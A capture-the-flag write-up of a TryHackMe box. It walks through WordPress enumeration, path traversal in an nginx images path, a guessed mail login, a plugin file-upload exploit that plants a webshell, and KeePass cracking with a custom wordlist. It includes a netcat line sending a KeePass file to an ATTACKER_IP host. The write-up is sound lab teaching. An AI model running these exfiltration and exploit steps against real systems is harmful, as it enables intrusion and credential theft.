This box is rated hard difficulty on THM. It involves us finding a Wordpress application that's vulnerable to LFI, allowing us to read the server's configuration files to discover an email subdomain. Then, we abuse an authenticated RCE vulnerability in a vulnerable plugin to grab a shell. Finally, brute forcing a KeePass backup file with a custom wordlist grants us a different user's password and parsing their bash history discloses root's password.

_Will you find the flags between all these mountains?_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.65.135.175 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 22:16 CST
Nmap scan report for 10.65.135.175
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:09:80:28:d4:ec:f1:f9:bc:a3:f7:bb:cc:0f:68:90 (ECDSA)
|_  256 82:5a:2d:0c:77:83:7c:ea:ae:49:37:db:03:5a:03:08 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.88 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

Not too much we can do on SSH without credentials so I fire up Gobuster to find subdirectories/subdomains in the background before heading over to the webpage. It looks like the standard welcome text for a fresh nginx install, so enumeration will be key on this box as we don't have anything to exploit yet.



```
$ gobuster dir -u http://10.65.135.175/wordpress/ -w /opt/SecLists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.65.135.175/wordpress/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://10.65.135.175/wordpress/images/]
/wp-content           (Status: 301) [Size: 178] [--> http://10.65.135.175/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 178] [--> http://10.65.135.175/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 178] [--> http://10.65.135.175/wordpress/wp-admin/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

My directory search finds a page that redirects us to an application built on Wordpress. I should mention that I had to add mountaineer.thm to my `/etc/hosts` file for the page to load properly even though the scope did not provide it. This site it a dedicated blog for different mountains to post about themselves, taking some time to look around the site gives us a few usernames of Cho0yu, MontBlanc, Everest, and Admin. 



All the typical Wordpress endpoints exist, including wp-admin that redirects us to a login panel. Other than brute forcing or some kind of misconfiguration, the only vulnerability I could think of was IDOR to a sensitive page.



That just returned the known listed blogs. I'll be using WPScan to quickly enumerate any vulnerable plugins/themes along with any more users.

```
$ wpscan --url http://mountaineer.thm/wordpress/ -e ap,at                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://mountaineer.thm/wordpress/ [10.65.135.175]
[+] Started: Tue Feb 10 22:41:29 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.18.0 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://mountaineer.thm/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://mountaineer.thm/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://mountaineer.thm/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://mountaineer.thm/wordpress/?feed=rss2, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://mountaineer.thm/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: blogarise
 | Location: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/
 | Last Updated: 2026-02-09T00:00:00.000Z
 | Readme: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/readme.txt
 | [!] The version is out of date, the latest version is 1.5.3
 | Style URL: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/style.css?ver=6.4.3
 | Style Name: BlogArise
 | Style URI: https://themeansar.com/free-themes/blogarise/
 | Description: BlogArise is a fast, clean, modern-looking Best Responsive News Magazine WordPress theme. The theme ...
 | Author: Themeansar
 | Author URI: http://themeansar.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 0.55 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/blogarise/style.css?ver=6.4.3, Match: 'Version: 0.55'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] modern-events-calendar-lite
 | Location: http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:04:47 <===========================================> (31359 / 31359) 100.00% Time: 00:04:47
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] blogarise
 | Location: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/
 | Last Updated: 2026-02-09T00:00:00.000Z
 | Readme: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/readme.txt
 | [!] The version is out of date, the latest version is 1.5.3
 | Style URL: http://mountaineer.thm/wordpress/wp-content/themes/blogarise/style.css
 | Style Name: BlogArise
 | Style URI: https://themeansar.com/free-themes/blogarise/
 | Description: BlogArise is a fast, clean, modern-looking Best Responsive News Magazine WordPress theme. The theme ...
 | Author: Themeansar
 | Author URI: http://themeansar.com
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/blogarise/, status: 500
 |
 | Version: 0.55 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/blogarise/style.css, Match: 'Version: 0.55'

[+] twentytwentyfour
 | Location: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | Style URL: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentyfour/, status: 403
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'

[+] twentytwentythree
 | Location: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | Style URL: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentythree/, status: 403
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.3'

[+] twentytwentytwo
 | Location: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentytwo/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://mountaineer.thm/wordpress/wp-content/themes/twentytwentytwo/style.css
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentytwo/, status: 200
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/themes/twentytwentytwo/style.css, Match: 'Version: 1.6'

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Feb 10 22:46:21 2026
[+] Requests Done: 31373
[+] Cached Requests: 51
[+] Data Sent: 8.923 MB
[+] Data Received: 5.005 MB
[+] Memory used: 373.688 MB
[+] Elapsed time: 00:04:51
```

XML-RPC is enabled which will allow for an easier time brute-forcing logins if needed. For some reason, my scanner's database didn't pick up on it, but the plugin the site's using is actually vulnerable to a few things. Notably, there is a [CVE-2021–24145](https://nvd.nist.gov/vuln/detail/CVE-2021-24145) which allows for authenticated RCE via arbitrary file uploads. We still don't have a session for that but I set aside this [PoC](https://www.exploit-db.com/exploits/50082) for the future.

Looking back on the directory scan, I notice an /images directory which seemed a little odd considering it's not there by default on WP apps. It responds with a `403 Forbidden` code, but that could mean that there's an upload function somewhere. And with any thing that accesses the filesystem, comes a bit of a risk.

I spent some time fuzzing for endpoints or APIs under the that directory but it yielded nothing. The main things I test for when coming across a static page that stores file/images uploads are exposed sensitive files like a `.bak`, IDOR (not applicable here), and LFI to see if we can have the server load user-supplied input. 

## LFI on Images Directory
I break out cURL as browser's automatically redirect us and we won't be able to gather as much info. Making requests to both `/images` and `/images/` respond with a 301 and 403 respectively. The `301 Moved Permanently` code indicates that the server attempted to access the resource but it had been moved, this is massive as it didn't throw a `404 Error`. 



The presence of a trailing slash would be problematic as it would lock us under that directory, but since there isn't one we can utilize directory traversal characters to read local files on the server. Let's test that theory by trying to look at /etc/passwd .



That delivers us the file successfully and I grep for bash to find all users on the system. My next step would be to search for common sensitive resources on the server, such as SSH keys, web configuration files, or DB backups.

## Roundcube Subdomain
Nothing came of searching user directories, but the nginx sites-available file discloses a subdomain that pertains to an admin login for the Roundcube mail application.



After adding that to my `/etc/hosts` file, I check it out only to find login panel without much information on the main page. I figured that this site was pretty well-hidden so the admin wouldn't care if their password was weak, so I started manually brute-forcing logins (ie. admin:admin or admin:password). Eventually, I get a successful login when supplying K2 for both fields.

Looking through the mail received, I find a password for K2's account sent in a heartwarming message from the user Nanga. 



There was also an email sent from our account to Lhotse that disclosed some personal details about them.



## Initial Foothold
That password works to login at the Wordpress site and now we can use that RCE vulnerability gathered from earlier to get a shell on the box as the server. We also could've reset our password by using the built-in function at wp-admin and checking the inbox.

```
$ python3 50082.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p '[REDACTED]'
  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme

[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```

Once the PoC is executed, we can navigate to the uploads directory to find our super cool Webshell.



As nice as the p0wnyshell is and even operates, I prefer bash since we don't have a whole lot of functionality in it. A simple netcat mkfifo reverse shell grants me a session as www-data and we can start internal enumeration for finding privesc towards root user.

## Privilege Escalation
Funnily enough, K2 has the same password as their roundcube login so we can just switch users to them. Using `find . 2>/dev/null` under the home dir gives me a list of files to play around with. The main thing that stuck out to me is this `Backup.kdbx` (KeePass database file).

```
k2@mountaineer:/home$ find . 2>/dev/null
.
./kangchenjunga
./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./makalu
./makalu/.bash_history
./k2
./k2/.bash_history
./k2/mail
./k2/mail/.imap
./k2/mail/.imap/Sent
./k2/mail/.imap/Sent/dovecot.index.log
./k2/mail/.imap/Sent/dovecot.index.cache
./k2/mail/.imap/dovecot-uidvalidity
./k2/mail/.imap/dovecot.list.index.log
./k2/mail/.imap/dovecot-uidvalidity.6610f8f0
./k2/mail/.imap/dovecot.mailbox.log
./k2/mail/.imap/INBOX
./k2/mail/.imap/INBOX/dovecot.index.log
./k2/mail/.imap/INBOX/dovecot.index.cache
./k2/mail/Sent
./k2/mail/.subscriptions
./annapurna
./annapurna/.bash_history
./nanga
./nanga/.bash_history
./nanga/ToDo.txt
./nanga/mail
./everest
./everest/.bash_history
./lhotse
./lhotse/.bash_history
./lhotse/Backup.kdbx
./lhotse/mail
./manaslu
./manaslu/.bash_history
./vagrant
```

Logically, we'd need to pivot to Kangchenjunga's account since they have the local flag in their home directory. The only thing to exploit was that KeePass file which I end up sending to my attacking machine to investigate.

```
#On remote machine
nc ATTACKER_IP 4444 < Backup.kdbx

#On local machine
nc -lvnp 4444 > Backup.kdbx
```

Opening this with the [Keepassxc tool](https://github.com/keepassxreboot/keepassxc) shows that it's password locked. 



I kept thinking about the strange email we sent to Lhotse that contained all the information we knew about them. Maybe we are meant to make a wordlist using those keywords and brute force the password that way. If that doesn't end up working, I'll convert the file to a crackable hash format using `keepass2john` and let that run a while.

Asking AI what tools are most compatible with the info at hand gives me [Cupp](https://github.com/Mebus/cupp) which takes our input and creates a wordlist of all possibilities.

```
$ cupp -i    

 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]

[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Mount
> Surname: Lhotse
> Nickname: MrSecurity
> Birthdate (DDMMYYYY): 18051956

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: Lhotsy
> Company name: BestMountainsInc

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mountain.txt, counting 1926 words.
[+] Now load your pistolero with mountain.txt and shoot! Good luck!
```

That tool contains almost the exact same fields to input our information at which gives me some hope that this will work. Hydra and other standard BF tools don't support KeePass formats so I find [this script](https://github.com/r3nt0n/keepass4brute) to test with our new wordlist.



That gives us the correct password for the backup file and we can now dump the database. Doing so rewards us with kangchenjunga's password.



I use those credentials to login via SSH and grab the local flag inside our home directory. Along with it is a note disclosing that root user keeps using our account and some personal statements.



Knowing that root user abuses access to our account, we can assume that they run commands that will be logged; Luckily for us, our `.bash_history` file doesn't point to `/dev/null` allowing us to read their password.

